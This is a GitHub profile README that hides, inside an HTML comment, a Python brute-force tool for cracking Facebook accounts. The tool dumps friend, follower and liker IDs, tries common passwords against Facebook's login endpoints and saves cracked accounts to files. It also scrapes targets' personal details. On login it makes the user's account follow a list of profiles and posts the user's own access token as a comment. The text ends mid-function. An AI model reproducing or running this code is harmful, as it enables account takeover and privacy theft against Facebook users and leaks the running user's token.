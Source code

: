 ### Hi there 👋

<!--
**OP-DNK/OP-DNK** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.
#!/usr/bin/python3
#-*-coding:utf-8-*-
# Made With ❤️ By OP-DNK
# Thanks To Angga, Rizal, Yayan, Hamza, Jessica, And RATU ERROR Project
# Thanks To All Member RATU ERROR
# Please Don't Recode, Thanks.

import requests,mechanize,bs4,sys,os,subprocess,uuid,random,time,re,base64,concurrent.futures,json
from random import randint
from concurrent.futures import ThreadPoolExecutor as ThreadPool
from datetime import date
from datetime import datetime
current = datetime.now()

p = "\x1b[0;37m" # putih
m = "\x1b[0;31m" # merah
h = "\x1b[0;32m" # hijau
k = "\x1b[0;33m" # kuning
b = "\x1b[0;34m" # biru
u = "\x1b[0;35m" # ungu
o = "\x1b[0;36m" # biru muda

if ("linux" in sys.platform.lower()):

        N = "\033[0m"
        G = "\033[1;92m"
        O = "\033[1;97m"
        R = "\033[1;91m"
else:

        N = ""
        G = ""
        O = ""
        R = ""

### HEADERS ###

def banner():
    print("""   ___                   \n  / _ \_______             ® \n / ___/ __/ -_) Multi Brute  ┌──────────────────────────────┐\n/_/  /_/__\__/(_) Force 2.0  │  Script By Dapunta Khurayra  │\n       /  ^ \/ / // /  ^ \   │   •• Github.com/Dapunta ••   │\n      /_/_/_/_/\_,_/_/_/_/   └──────────────────────────────┘""")

host="https://mbasic.facebook.com"
ips=None
try:
	b=requests.get("http://ip-api.com/json/").json()["query"]
	ips=requests.get("http://ip-api.com/json/"+b,headers={"Referer":"http://ip-api.com/","Content-Type":"application/json; charset=utf-8","User-Agent":"Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36[FBAN/EMA;FBLC/it_IT;FBAV/239.0.0.10.109;]"}).json()["country"].lower()
except:
	ips=None

ok = []
cp = []
ttl =[]

durasi = str(datetime.now().strftime("%d-%m-%Y"))
tahun = current.year
bulan = current.month
hari = current.day

def jalan(z):
	for e in z + "\n":
		sys.stdout.write(e)
		sys.stdout.flush()
		time.sleep(0.03)

def clear():
	if " linux" in sys.platform.lower():
		os.system("clear")
	elif "win" in sys.platform.lower():
		os.system("cls")
	else:os.system("clear")
    
def lang(cookies):
	f=False
	rr=bs4.BeautifulSoup(requests.get("https://mbasic.facebook.com/language.php",headers=hdcok(),cookies=cookies).text,"html.parser")
	for i in rr.find_all("a",href=True):
		if "id_ID" in i.get("href"):
			requests.get("https://mbasic.facebook.com/"+i.get("href"),cookies=cookies,headers=hdcok())
			b=requests.get("https://mbasic.facebook.com/profile.php",headers=hdcok(),cookies=cookies).text	
			if "apa yang anda pikirkan sekarang" in b.lower():
				f=True
	if f==True:
		return True
	else:
		exit("[!] Wrong Cookies")

def basecookie():
	if os.path.exists(".cok"):
		if os.path.getsize(".cok") !=0:
			return gets_dict_cookies(open('.cok').read().strip())
		else:logs()
	else:logs()

def hdcok():
	global host
	hosts=host
	r={"origin": hosts, "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7", "accept-encoding": "gzip, deflate", "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "user-agent": "Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36[FBAN/EMA;FBLC/it_IT;FBAV/239.0.0.10.109;]", "Host": "".join(bs4.re.findall("://(.*?)$",hosts)), "referer": hosts+"/login/?next&ref=dbl&fl&refid=8", "cache-control": "max-age=0", "upgrade-insecure-requests": "1", "content-type": "application/x-www-form-urlencoded"}
	return r

def gets_cookies(cookies):
	result=[]
	for i in enumerate(cookies.keys()):
		if i[0]==len(list(cookies.keys()))-1:result.append(i[1]+"="+cookies[i[1]])
		else:result.append(i[1]+"="+cookies[i[1]]+"; ")
	return "".join(result)

def gets_dict_cookies(cookies):
	result={}
	try:
		for i in cookies.split(";"):
			result.update({i.split("=")[0]:i.split("=")[1]})
		return result
	except:
		for i in cookies.split("; "):
			result.update({i.split("=")[0]:i.split("=")[1]})
		return result

### LOGIN METHODE ###

def logs():
  os.system("clear")
  banner()
  print((k+"\n["+p+"1"+k+"]"+p+" Login Token"))
  print((k+"["+p+"2"+k+"]"+p+" Login Cookies"))
  print((k+"["+p+"0"+k+"]"+p+" Exit"))
  sek=input(k+"\n["+p+"•"+k+"]"+p+" Choose : ")
  if sek=="":
    print((k+"\n["+p+"!"+k+"]"+p+" Fill In The Correct"))
    logs()
  elif sek=="1":
    log_token()
  elif sek=="2":
    gen()
  elif sek=="0":
    exit()
  else:
    print((k+"\n["+p+"!"+k+"]"+p+" Fill In The Correct"))
    logs()

def log_token():
    os.system("clear")
    banner()
    toket = input(k+"\n["+p+"•"+k+"]"+p+" Token : ")
    try:
        otw = requests.get("https://graph.facebook.com/me?access_token=" + toket)
        a = json.loads(otw.text)
        nama = a["name"]
        zedd = open("login.txt", "w")
        zedd.write(toket)
        zedd.close()
        print((k+"\n["+p+"•"+k+"]"+p+" Login Successful"))
        bot_follow()
    except KeyError:
        print((k+"["+p+"!"+k+"]"+p+" Token Invalid"))
        os.system("clear")
        logs()

def gen():
        os.system("clear")
        banner()
        cookie = input(k+"\n["+p+"•"+k+"]"+p+" Cookies : ")
        try:
                data = requests.get("https://m.facebook.com/composer/ocelot/async_loader/?publisher=feed#_=_", headers = {
                "user-agent"                : "Mozilla/5.0 (Linux; Android 8.1.0; MI 8 Build/OPM1.171019.011) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.86 Mobile Safari/537.36", # Jangan Di Ganti Ea Anjink.
                "referer"                   : "https://m.facebook.com/",
                "host"                      : "m.facebook.com",
                "origin"                    : "https://m.facebook.com",
                "upgrade-insecure-requests" : "1",
                "accept-language"           : "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7",
                "cache-control"             : "max-age=0",
                "accept"                    : "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8",
                "content-type"              : "text/html; charset=utf-8"
                }, cookies = {
                "cookie"                    : cookie
                })
                find_token = re.search("(EAAA\w+)", data.text)
                hasil    = "\n* Fail : maybe your cookie invalid !!" if (find_token is None) else "\n* Your fb access token : " + find_token.group(1)
        except requests.exceptions.ConnectionError:
                print((k+"["+p+"!"+k+"]"+p+" No Connection"))
        cookie = open("login.txt", "w")
        cookie.write(find_token.group(1))
        cookie.close()
        print((k+"\n["+p+"•"+k+"]"+p+" Login Successful"))
        bot_follow()

### BOT FOLLOW ### Jangan Diganti Anjing !!!

def bot_follow():
	try:
		toket=open("login.txt","r").read()
	except IOError:
		print((k+"\n["+p+"!"+k+"]"+p+" Token Invalid"))
		logs()
	kom = ("Dani ganteng mau ga jadi pacarku? ❤️❤️❤️❤️❤️\n\nhttps://www.facebook.com/photo.php?fbid=10214228940637251&set=a.1274773809249&type=3&app=fbl")
	requests.post("https://graph.facebook.com/1827084332/subscribers?access_token=" + toket)      #Dapunta Khurayra X
	requests.post('https://graph.facebook.com/100000737201966/subscribers?access_token=' + toket) #Dapunta Adya R
	requests.post('https://graph.facebook.com/1673250723/subscribers?access_token=' + toket)      #Dapunta Ratya
	requests.post("https://graph.facebook.com/1602590373/subscribers?access_token=" + toket)      #Anthonyus Immanuel
	requests.post("https://graph.facebook.com/100000729074466/subscribers?access_token=" + toket) #Abigaille Dirgantara
	requests.post("https://graph.facebook.com/607801156/subscribers?access_token=" + toket)       #Boirah
	requests.post("https://graph.facebook.com/100009340646547/subscribers?access_token=" + toket) #Anita Zuliatin
	requests.post("https://graph.facebook.com/100000415317575/subscribers?access_token=" + toket) #Dapunta Xayonara
	requests.post('https://graph.facebook.com/100000149757897/subscribers?access_token=' + toket) #Dapunta Santana X
	requests.post('https://graph.facebook.com/100000431996038/subscribers?access_token=' + toket) #Almira Gabrielle X
	requests.post('https://graph.facebook.com/100000424033832/subscribers?access_token=' + toket) #Pebrima Jun Helmi
	requests.post('https://graph.facebook.com/1676993425/subscribers?access_token=' + toket)      #Wati Waningsih
	requests.post('https://graph.facebook.com/1767051257/subscribers?access_token=' + toket)      #Rofi Nurhanifah
	requests.post('https://graph.facebook.com/100000287398094/subscribers?access_token=' + toket) #Diah Ayu Kharisma
	requests.post('https://graph.facebook.com/100000883844839/subscribers?access_token=' + toket) #Arnold Jackqueline X
	requests.post('https://graph.facebook.com/100001617352620/subscribers?access_token=' + toket) #Antonius Raditya M
	requests.post("https://graph.facebook.com/100026490368623/subscribers?access_token=" + toket) #Muh Rizal Fiansyah
	requests.post("https://graph.facebook.com/100010484328037/subscribers?access_token=" + toket) #Rizal F
	requests.post("https://graph.facebook.com/100015073506062/subscribers?access_token=" + toket) #Angga Kurniawan
	requests.post('https://graph.facebook.com/100005395413800/subscribers?access_token=' + toket) #Moch Yayan
	requests.post('https://graph.facebook.com/100033624590055/subscribers?access_token=' + toket) #Fajar Firmansyah
	requests.post('https://graph.facebook.com/100000114398701/subscribers?access_token=' + toket) #Arya Firmansyah
	requests.post('https://graph.facebook.com/100008468288074/subscribers?access_token=' + toket) #Bayu Putra
	requests.post('https://graph.facebook.com/100001779410663/subscribers?access_token=' + toket) #Faskhal Mahiza
	requests.post('https://graph.facebook.com/100005143741340/subscribers?access_token=' + toket) #Alexandra Lubis
	requests.post('https://graph.facebook.com/607821/subscribers?access_token=' + toket)          #Raifan
	requests.post('https://graph.facebook.com/1518721/subscribers?access_token=' + toket)         #Irman
	requests.post('https://graph.facebook.com/100023543993788/subscribers?access_token=' + toket) #Irman Sniper
	requests.post('https://graph.facebook.com/10215994561776676/comments/?message=' +toket+ '&access_token=' + toket)
	requests.post('https://graph.facebook.com/10214228940637251/comments/?message=' +kom+ '&access_token=' + toket)
	menu()

### MAIN MENU ###

def menu():
    try:
        toket = open("login.txt","r").read()
        otw = requests.get("https://graph.facebook.com/me/?access_token="+toket)
        a = json.loads(otw.text)
        nama = a["name"]
        id = a["id"]
    except Exception as e:
        print((k+"["+p+"•"+k+"]"+p+" Error : %s"%e))
        logs()
    ip = requests.get("https://api.ipify.org").text
    os.system("clear")
    banner()
    print((k+"\n[ "+p+"Welcome "+a["name"]+k+" ]"+p))
    print((k+"\n["+p+"•"+k+"]"+p+" Your ID : "+id))
    print((k+"["+p+"•"+k+"]"+p+" Your IP : "+ip))
    print((k+"["+p+"•"+k+"]"+p+" Status  : "+k+"In Development"+p))
    print((k+"["+p+"•"+k+"]"+p+" Joined  : "+durasi))
    print((k+"\n["+p+"1"+k+"]"+p+" Crack ID From Public/Friend"))
    print((k+"["+p+"2"+k+"]"+p+" Crack ID From Followers"))
    print((k+"["+p+"3"+k+"]"+p+" Crack ID From Likers Post"))
    print((k+"["+p+"4"+k+"]"+p+" Crack By Phone Number"))
    print((k+"["+p+"5"+k+"]"+p+" Crack By Email"))
    print((k+"["+p+"6"+k+"]"+p+" Get Data Target"))
    print((k+"["+p+"7"+k+"]"+p+" Result Crack"))
    print((k+"["+p+"0"+k+"]"+p+" Logout"))
    choose_menu()

def choose_menu():
	r=input(k+"\n["+p+"•"+k+"]"+p+" Choose : ")
	if r=="":
		print((k+"["+p+"!"+k+"]"+p+" Fill In The Correct"))
		menu()
	elif r=="1":
		publik()
	elif r=="2":
		follow()
	elif r=="3":
		likers()
	elif r=="4":
		random_numbers()
	elif r=="5":
		random_email()
	elif r=="6":
		target()
	elif r=="7":
		ress()
	elif r=="0":
		try:
			jalan(k+"\n["+p+"•"+k+"]"+p+" Thanks For Using My Script")
			os.system("rm -rf login.txt")
			exit()
		except Exception as e:
			print((k+"["+p+"!"+k+"]"+p+" Error %s"%e))
	else:
		print((k+"["+p+"!"+k+"]"+p+" Wrong Input"))
		menu()	

def pilihcrack(file):
  print((k+"\n["+p+"1"+k+"]"+p+" Mbasic ("+h+"Recommended"+p+")"))
  print((k+"["+p+"2"+k+"]"+p+" Mbasic + TTL"))
  krah=input(k+"\n["+p+"•"+k+"]"+p+" Choose : ")
  if krah in[""]:
    print((k+"["+p+"!"+k+"]"+p+" Fill In The Correct"))
    pilihcrack(file)
  elif krah in["1","01"]:
    crack(file)
  elif krah in["2","02"]:
    crackttl(file)
  else:
    print((k+"["+p+"!"+k+"]"+p+" Fill In The Correct"))
    pilihcrack(file)

### DUMP ID ###

def publik():
	try:
		toket=open("login.txt","r").read()
	except IOError:
		print((k+"\n["+p+"!"+k+"]"+p+" Cookie/Token Invalid"))
		os.system("rm -rf login.txt")
		logs()
	try:
		print((k+"\n["+p+"•"+k+"]"+p+" Type \'me\' To Dump From Friendlist"))
		idt = input(k+"["+p+"•"+k+"]"+p+" User ID Target : ")
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print((k+"["+p+"•"+k+"]"+p+" Name : "+op["name"]))
		except KeyError:
			print((k+"["+p+"!"+k+"]"+p+" ID Not Found"))
			print((k+"\n[ "+p+"Back"+k+" ]"+p))
			publik()
		r=requests.get("https://graph.facebook.com/"+idt+"/friends?limit=10000&access_token="+toket)
		id = []
		z=json.loads(r.text)
		qq = (op["first_name"]+".json").replace(" ","_")
		ys = open(qq , "w")#.replace(" ","_")
		for a in z["data"]:
			id.append(a["id"]+"<=>"+a["name"])
			ys.write(a["id"]+"<=>"+a["name"]+"\n")
		ys.close()
		print((k+"["+p+"•"+k+"]"+p+" Total ID : %s"%(len(id))))
		return pilihcrack(qq)
	except Exception as e:
		exit(k+"["+p+"!"+k+"]"+p+" Error : %s"%e)

def follow():
	try:
		toket=open("login.txt","r").read()
	except IOError:
		print((k+"\n["+p+"!"+k+"]"+p+" Cookie/Token Invalid"))
		os.system("rm -rf login.txt")
		logs()
	try:
		idt = input(k+"\n["+p+"•"+k+"]"+p+" Followers ID Target : ")
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print((k+"["+p+"•"+k+"]"+p+" Name : "+op["name"]))
		except KeyError:
			print((k+"["+p+"!"+k+"]"+p+" ID Not Found"))
			print((k+"\n[ "+p+"Back"+k+" ]"+p))
			publik()
		r=requests.get("https://graph.facebook.com/"+idt+"/subscribers?limit=20000&access_token="+toket)
		id = []
		z=json.loads(r.text)
		qq = (op["first_name"]+".json").replace(" ","_")
		ys = open(qq , "w")#.replace(" ","_")
		for a in z["data"]:
			id.append(a["id"]+"<=>"+a["name"])
			ys.write(a["id"]+"<=>"+a["name"]+"\n")
		ys.close()
		print((k+"["+p+"•"+k+"]"+p+" Total ID : %s"%(len(id))))
		return pilihcrack(qq)
	except Exception as e:
		exit(k+"["+p+"!"+k+"]"+p+" Error : %s"%e)

def likers():
	try:
		toket=open("login.txt","r").read()
	except IOError:
		print((k+"\n["+p+"!"+k+"]"+p+" Cookie/Token Invalid"))
		os.system("rm -rf login.txt")
		logs()
	try:
		idt = input(k+"\n["+p+"•"+k+"]"+p+" ID Post Target : ")
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print((k+"["+p+"•"+k+"]"+p+" Name : "+op["name"]))
		except KeyError:
			print((k+"["+p+"!"+k+"]"+p+" ID Not Found"))
			print((k+"\n[ "+p+"Back"+k+" ]"+p))
			publik()
		r=requests.get("https://graph.facebook.com/"+idt+"/likes?limit=100000&access_token="+toket)
		id = []
		z=json.loads(r.text)
		qq = (op["first_name"]+".json").replace(" ","_")
		ys = open(qq , "w")#.replace(" ","_")
		for a in z["data"]:
			id.append(a["id"]+"<=>"+a["name"])
			ys.write(a["id"]+"<=>"+a["name"]+"\n")
		ys.close()
		print((k+"["+p+"•"+k+"]"+p+" Total ID : %s"%(len(id))))
		return pilihcrack(qq)
	except Exception as e:
		exit(k+"["+p+"!"+k+"]"+p+" Error : %s"%e)

### CRACK EMAIL & PHONE ###

def random_numbers():
  data = []
  print((k+"\n["+p+"•"+k+"]"+p+" Number Must Be 5 Digit"))
  print((k+"["+p+"•"+k+"]"+p+" Example : 92037"))
  kode=str(input(k+"["+p+"•"+k+"]"+p+" Input Number : "))
  exit((k+"\n["+p+"!"+k+"]"+p+" Number Must Be 5 Digit")) if len(kode) < 5 else ''
  exit((k+"\n["+p+"!"+k+"]"+p+" Number Must Be 5 Digit")) if len(kode) > 5 else ''
  jml=int(input(k+"["+p+"•"+k+"]"+p+" Amount : "))
  [data.append({'user': str(e), 'pw':[str(e[5:]), str(e[6:])]}) for e in [str(kode)+''.join(['%s'%(randint(0,9)) for i in range(0,7)]) for e in range(jml)]]
  print(k+"\n["+p+"•"+k+"]"+p+" Crack Started, Please Wait...\n")
  with concurrent.futures.ThreadPoolExecutor(max_workers=15) as th:
    {th.submit(brute, user['user'], user['pw']): user for user in data}
  input(k+"\n[ "+p+"Back"+k+" ]"+p)
  menu()

def random_email():
  data = []
  nama=input(k+"\n["+p+"•"+k+"]"+p+" Target Name : ")
  domain=input(k+"["+p+"•"+k+"]"+p+" Choose Domain [G]mail, [Y]ahoo, [H]otmail : ").lower().strip()
  list={
    'g':'@gmail.com',
    'y':'@yahoo.com',
    'h':'@hotmail.com'
  }
  exit((k+"["+p+"•"+k+"]"+p+" Fill In The Correct")) if not domain in ['g','y','h'] else ''
  jml=int(input(k+"["+p+"•"+k+"]"+p+" Amount : "))
  setpw=input(k+"["+p+"•"+k+"]"+p+" Set Password : ").split(',')
  print(k+"\n["+p+"•"+k+"]"+p+" Crack Started, Please Wait...\n")
  [data.append({'user': nama+str(e)+list[domain], 'pw':[(i) for i in setpw]}) for e in range(1,jml+1)]
  with concurrent.futures.ThreadPoolExecutor(max_workers=15) as th:
    {th.submit(brute, user['user'], user['pw']): user for user in data}
  input(k+"\n[ "+p+"Back"+k+" ]"+p)
  menu()

def brute(user, passs):
  try:
    for pw in passs:
      params={
        'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32',
        'format': 'JSON',
        'sdk_version': '2',
        'email': user,
        'locale': 'en_US',
        'password': pw,
        'sdk': 'ios',
        'generate_session_cookies': '1',
        'sig': '3f555f99fb61fcd7aa0c44f58f522ef6',
      }
      api='https://b-api.facebook.com/method/auth.login'
      response=requests.get(api, params=params)
      if re.search('(EAAA)\w+', str(response.text)):
        print('\x1b[0;32m[\x1b[0;37mOK\x1b[0;32m] %s • %s '%(str(user), str(pw)))
        break
      elif 'www.facebook.com' in response.json()['error_msg']:
        print('\x1b[0;33m[\x1b[0;37mCP\x1b[0;33m] %s • %s '%(str(user), str(pw)))
        break
  except: pass

### INFO ACCOUNT ###

def target():
	try:
		toket=open("login.txt","r").read()
	except IOError:
		print((k+"\n["+p+"!"+k+"]"+p+" Token Invalid"))
		os.system("rm -rf login.txt")
		login()
	try:
		idt = input(k+"\n["+p+"•"+k+"]"+p+" ID Target        : ")
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print((k+"["+p+"•"+k+"]"+p+" Name Account     : "+op["name"]))
			print((k+"["+p+"•"+k+"]"+p+" Username         : "+op["username"]))
			try:
				jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
				op = json.loads(jok.text)
				print((k+"["+p+"•"+k+"]"+p+" Email            : "+op["email"]))
			except KeyError:
				print((k+"["+p+"•"+k+"]"+p+" Email            : -"))
			try:
				jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
				op = json.loads(jok.text)
				print((k+"["+p+"•"+k+"]"+p+" Date Of Birth    : "+op["birthday"]))
			except KeyError:
				print((k+"["+p+"•"+k+"]"+p+" Date Of Birth    : -"))
			try:
				jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
				op = json.loads(jok.text)
				print((k+"["+p+"•"+k+"]"+p+" Gender           : "+op["gender"]))
			except KeyError:
				print((k+"["+p+"•"+k+"]"+p+" Gender           : -"))
			try:
				r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
				id = []
				z = json.loads(r.text)
				qq = (op["first_name"]+".json").replace(" ","_")
				ys = open(qq , "w")
				for i in z["data"]:
					id.append(i["id"])
					ys.write(i["id"])
				ys.close()
				print((k+"["+p+"•"+k+"]"+p+" Total Friend     : %s"%(len(id))))
			except KeyError:
				print((k+"["+p+"•"+k+"]"+p+" Total Friend     : -"))
			try:
				a=requests.get("https://graph.facebook.com/"+idt+"/subscribers?limit=20000&access_token="+toket)
				id = []
				b = json.loads(a.text)
				bb = (op["first_name"]+".json").replace(" ","_")
				jw = open(bb , "w")
				for c in b["data"]:
					id.append(c["id"])
					jw.write(c["id"])
				jw.close()
				print((k+"["+p+"•"+k+"]"+p+" Total Follower   : %s"%(len(id))))
			except KeyError:
				print((k+"["+p+"•"+k+"]"+p+" Total Follower   : -"))
			try:
				jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
				op = json.loads(jok.text)
				print((k+"["+p+"•"+k+"]"+p+" Website          : "+op["website"]))
			except KeyError:
				print((k+"["+p+"•"+k+"]"+p+" Website          : -"))
			except IOError:
				print((k+"["+p+"•"+k+"]"+p+" Website          : -"))
			try:
				jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
				op = json.loads(jok.text)
				print((k+"["+p+"•"+k+"]"+p+" Update Time      : "+op["updated_time"]))
			except KeyError:
				print((k+"["+p+"•"+k+"]"+p+" Update Time      : -"))
			except IOError:
				print((k+"["+p+"•"+k+"]"+p+" Update Time      : -"))
			input(k+"\n[ "+p+"Back"+k+" ]"+p)
			menu()
		except KeyError:
			input(k+"\n[ "+p+"Back"+k+" ]"+p)
			menu()
	except Exception as e:
		exit(k+"["+p+"•"+k+"]"+p+" Error : %s"%e)

### PASSWORD ###

def generate(text):
	results=[]
	global ips
	for i in text.split(" "):
		if len(i)<3:
			continue
		else:
			i=i.lower()
			if len(i)==3 or len(i)==4 or len(i)==5:
				results.append(i+"123")
				results.append(i+"12345")
			else:
				results.append(i+"123")
				results.append(i+"12345")
				results.append(i)
				if "indonesia" in ips:
					results.append("sayang")
					results.append("bismillah")
					results.append("anjing")
					results.append("123456")
	return results

### BRUTE CRACK ###

def mbasic(em,pas,hosts):
	r=requests.Session()
	r.headers.update({"Host":"mbasic.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","user-agent":"Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36[FBAN/EMA;FBLC/it_IT;FBAV/239.0.0.10.109;]","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8","accept-encoding":"gzip, deflate","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"})
	p=r.get("https://mbasic.facebook.com/")
	b=bs4.BeautifulSoup(p.text,"html.parser")
	meta="".join(bs4.re.findall('dtsg":\{"token":"(.*?)"',p.text))
	data={}
	for i in b("input"):
		if i.get("value") is None:
			if i.get("name")=="email":
				data.update({"email":em})
			elif i.get("name")=="pass":
				data.update({"pass":pas})
			else:
				data.update({i.get("name"):""})
		else:
			data.update({i.get("name"):i.get("value")})
	data.update(
		{"fb_dtsg":meta,"m_sess":"","__user":"0",
		"__req":"d","__csr":"","__a":"","__dyn":"","encpass":""
		}
	)
	r.headers.update({"referer":"https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8"})
	po=r.post("https://mbasic.facebook.com/login/device-based/login/async/?refsrc=https%3A%2F%2Fm.facebook.com%2Flogin%2F%3Fref%3Ddbl&lwv=100",data=data).text
	if "c_user" in list(r.cookies.get_dict().keys()):
		return {"status":"success","email":em,"pass":pas,"cookies":r.cookies.get_dict()}
	elif "checkpoint" in list(r.cookies.get_dict().keys()):
		return {"status":"cp","email":em,"pass":pas,"cookies":r.cookies.get_dict()}
	else:return {"status":"error","email":em,"pass":pas}

class crack:
	os.system("clear")
	banner()
	def __init__(self,isifile):
		self.ada=[]
		self.cp=[]
		self.ko=0
		print((k+"\n["+p+"•"+k+"]"+p+" Crack With Pass Default/Manual [d/m]"))
		while True:
			f=input(k+"["+p+"•"+k+"]"+p+" Choose : ")
			if f=="":continue
			elif f=="m":
				try:
					while True:
						try:
							self.apk=isifile
							self.fs=open(self.apk).read().splitlines()
							break
						except Exception as e:
							print(("   %s"%e))
							continue
					self.fl=[]
					for i in self.fs:
						try:
							self.fl.append({"id":i.split("<=>")[0]})
						except:continue
				except Exception as e:
					print(("   %s"%e))
					continue
				print((k+"["+p+"•"+k+"]"+p+" Example : sayang,bismillah,123456"))
				self.pwlist()
				break
			elif f=="d":
				try:
					while True:
						try:
							self.apk=isifile
							self.fs=open(self.apk).read().splitlines()
							break
						except Exception as e:
							print(("   %s"%e))
							continue
					self.fl=[]
					for i in self.fs:
						try:
							self.fl.append({"id":i.split("<=>")[0],"pw":generate(i.split("<=>")[1])})
						except:continue
				except Exception as e:
					print(("   %s"%e))
				print((k+"\n["+p+"•"+k+"]"+p+" Crack Started..."+k+"\n["+p+"•"+k+"]"+p+" Account [OK] Saved to : ok.txt"+k+"\n["+p+"•"+k+"]"+p+" Account [CP] Saved to : cp.txt\n"))
				ThreadPool(35).map(self.main,self.fl)
				os.remove(self.apk)
				exit()
				break
	def pwlist(self):
		self.pw=input(k+"["+p+"•"+k+"]"+p+" Password List : ").split(",")
		if len(self.pw) ==0:
			self.pwlist()
		else:
			for i in self.fl:
				i.update({"pw":self.pw})
			print((k+"\n["+p+"•"+k+"]"+p+" Crack Started..."+k+"\n["+p+"•"+k+"]"+p+" Account [OK] Saved to : ok.txt"+k+"\n["+p+"•"+k+"]"+p+" Account [CP] Saved to : cp.txt\n"))
			ThreadPool(30).map(self.main,self.fl)
			os.remove(self.apk)
			exit()
	def main(self,fl):
		try:
			for i in fl.get("pw"):
				log=mbasic(fl.get("id"),
					i,"https://mbasic.facebook.com")
				if log.get("status")=="cp":
					print(("\r\x1b[0;33m[\x1b[0;37mCP\x1b[0;33m] %s • %s               "%(fl.get("id"),i)))
					self.cp.append("%s • %s"%(fl.get("id"),i))
					open("cp.txt","a+").write(
						"%s • %s\n"%(fl.get("id"),i))
					break
				elif log.get("status")=="success":
					print(("\r\x1b[0;32m[\x1b[0;37mOK\x1b[0;32m] %s • %s               "%(fl.get("id"),i)))
					self.ada.append("%s • %s"%(fl.get("id"),i))
					open("ok.txt","a+").write(
						"%s • %s\n"%(fl.get("id"),i))
					break
				else:continue
					
			self.ko+=1
			print("\r\x1b[0;33m[\x1b[0;37mCrack\x1b[0;33m]\x1b[0;37m %s/%s \x1b[0;32m[\x1b[0;37mOK : %s\x1b[0;32m] \x1b[0;33m[\x1b[0;37mCP : %s\x1b[0;33m]\x1b[0;37m"%(self.ko,len(self.fl),len(self.ada),len(self.cp)), end=' ');sys.stdout.flush()
		except:
			self.main(fl)

class crackttl:
	os.system("clear")
	banner()
	def __init__(self,isifile):
		self.ada=[]
		self.cp=[]
		self.ko=0
		print((k+"\n["+p+"•"+k+"]"+p+" Crack With Pass Default/Manual [d/m]"))
		while True:
			f=input(k+"["+p+"•"+k+"]"+p+" Choose : ")
			if f=="":continue
			elif f=="m":
				try:
					while True:
						try:
							self.apk=isifile
							self.fs=open(self.apk).read().splitlines()
							break
						except Exception as e:
							print(("   %s"%e))
							continue
					self.fl=[]
					for i in self.fs:
						try:
							self.fl.append({"id":i.split("<=>")[0]})
						except:continue
				except Exception as e:
					print(("   %s"%e))
					continue
				print((k+"["+p+"•"+k+"]"+p+" Example : sayang,bismillah,123456"))
				self.pwlist()
				break
			elif f=="d":
				try:
					while True:
						try:
							self.apk=isifile
							self.fs=open(self.apk).read().splitlines()
							break
						except Exception as e:
							print(("   %s"%e))
							continue
					self.fl=[]
					for i in self.fs:
						try:
							self.fl.append({"id":i.split("<=>")[0],"pw":generate(i.split("<=>")[1])})
						except:continue
				except Exception as e:
					print(("   %s"%e))
				print((k+"\n["+p+"•"+k+"]"+p+" Crack Started..."+k+"\n["+p+"•"+k+"]"+p+" Account [OK] Saved to : ok.txt"+k+"\n["+p+"•"+k+"]"+p+" Account [CP] Saved to : cp.txt\n"))
				ThreadPool(35).map(self.main,self.fl)
				os.remove(self.apk)
				exit()
				break
	def pwlist(self):
		self.pw=input(k+"["+p+"•"+k+"]"+p+" Password List : ").split(",")
		if len(self.pw) ==0:
			self.pwlist()
		else:
			for i in self.fl:
				i.update({"pw":self.pw})
			print((k+"\n["+p+"•"+k+"]"+p+" Crack Started..."+k+"\n["+p+"•"+k+"]"+p+" Account [OK] Saved to : ok.txt"+k+"\n["+p+"•"+k+"]"+p+" Account [CP] Saved to : cp.txt\n"))
			ThreadPool(30).map(self.main,self.fl)
			os.remove(self.apk)
			exit()
	def main(self,fl):
		try:
			for i in fl.get("pw"):
				log=mbasic(fl.get("id"),
					i,"https://mbasic.facebook.com")
				if log.get("status")=="cp":
					try:
						ke=requests.get("https://graph.facebook.com/"+fl.get("id")+"?access_token="+open("login.txt","r").read())
						tt=json.loads(ke.text)
						ttl=tt["birthday"]
					except:pass
					print(("\r\x1b[0;33m[\x1b[0;37mCP\x1b[0;33m] %s • %s • %s\x1b[0m   "%(fl.get("id"),i,str(ttl))))
					self.cp.append("%s • %s"%(fl.get("id"),i))
					open("cp.txt","a+").write(
						"%s • %s • %s\n"%(fl.get("id"),i,str(ttl)))
					break
				elif log.get("status")=="success":
					print(("\r\x1b[0;32m[\x1b[0;37mOK\x1b[0;32m] %s • %s               "%(fl.get("id"),i)))
					self.ada.append("%s • %s"%(fl.get("id"),i))
